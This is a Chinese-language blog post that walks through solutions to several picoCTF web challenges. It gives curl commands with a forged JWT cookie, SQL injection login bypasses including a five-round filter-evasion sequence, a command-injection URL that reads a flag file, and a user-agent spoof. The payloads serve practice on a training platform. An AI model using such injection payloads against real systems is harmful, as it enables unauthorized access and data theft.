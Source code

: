 ```yaml
---
title: picoCTF平台学习及使用
date: 2022-10-04 20:07:16
permalink: /pages/2362e9/
categories:
  - skill
  - tool
tags:
  - 
author: 
  name: JavaInterview.cn
  link: https://JavaInterview.cn
titleTag: Java
---
```


## 地址

    https://play.picoctf.org/practice

![](../../../media/pictures/skill/picoctf.png)

## 试题举例

列题举例：

一、JaWT Scratchpad	
    
    curl "https://jupiter.challenges.picoctf.org/problem/63090/"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=admin" -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1NzA5Njg2NDB9.77pnOGlEdwL7MtxHHS6ZKYD5z1O8w_-SFnzPGyNo9t8" -s | grep pico

二、Irish-Name-Repo 1
    
    curl "https://jupiter.challenges.picoctf.org/problem/33850/login.php" --data "username=admin'--&password=1" && echo

三、caas
    
    https://caas.mars.picoctf.net/cowsay/%60cat%20falg.txt%60


四、picobrowser

    curl --user-agent "picobrowser" "https://jupiter.challenges.picoctf.org/problem/26704/flag"

五、Client-side-again

    查看源代码拼装结果

六、dont-use-client-side

    根据规则拼装


七、web-gauntlet

    Round 1
    Filter: or
    Username: admin' --
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' -- AND password='123'
    
    Round 2
    Filter: or and = like --
    Username: admin' union select * from users where '1
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='123'
    
    Round 3
    Filter: or and = like > < --
    Username: admin';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin';' AND password='123'
    
    Round 4
    Filter: or and = like > < -- admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    
    Round 5
    Filter: or and = like > < -- union admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    Flag
    All rounds have been passed, the page of round 6 says "Congrats! You won! Check out filter.php". Refresh filter.php again it shows the source code of filter.php and flag is at the end of the page.




## 总结
从picoctf平台中的思考

1.	查看源代码的方法
2.	根据规则拼装的方法
3.	Curl命令请求的方法
4.	Sql注入的方法
5.	谷歌百度的方法
6.	平时学英语的方法
7.	GitHub的方法
8.	年代及Tag的方法
9.	主次优先的方法
10.	懂得取舍的方法
11.	循序渐进的方法
12.	模拟环境的方法




